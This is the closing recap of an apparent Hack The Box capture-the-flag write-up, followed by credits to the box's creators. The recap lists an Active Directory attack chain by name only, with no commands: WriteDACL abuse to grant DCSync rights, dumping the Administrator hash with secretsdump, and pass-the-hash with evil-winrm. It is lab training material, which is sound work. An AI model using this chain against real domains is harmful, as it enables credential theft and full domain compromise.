- Finding that we're a member of a group that has **WriteDACL** on the domain
- Creating a new user and adding them to the group
- Abusing the **WriteDACL** permission to grant our new user **DCSync** rights using **PowerView**
- Gathering the Administrator's hash via **DCSync** with **impacket-secretsdump**
- Passing the hash with **evil-winrm** and connecting as Administrator

<br>

Many thanks to:
- [**egre55**](https://app.hackthebox.com/users/1190) and [**mrb3n**](https://app.hackthebox.com/users/2984) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)